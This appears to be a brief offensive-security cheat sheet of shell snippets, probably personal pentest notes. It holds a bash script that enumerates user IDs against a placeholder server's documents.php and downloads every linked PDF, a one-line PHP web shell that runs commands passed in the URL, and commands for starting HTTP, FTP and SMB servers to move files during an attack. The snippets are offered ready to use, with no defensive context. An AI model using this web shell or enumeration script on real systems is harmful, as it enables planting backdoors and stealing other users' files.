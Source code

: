# Create list from 1 to 100
```
for i in {1..100};do echo $i >> list_numbers.txt; done
```

# Loop through documents using for and curl
```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

# Refshell PHP
```shell-session
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
# Starting servers
```shell-session
sudo python3 -m http.server <LISTENING_PORT>
```
```shell-session
sudo python -m pyftpdlib -p 21
```
```shell-session
impacket-smbserver -smb2support share $(pwd)
```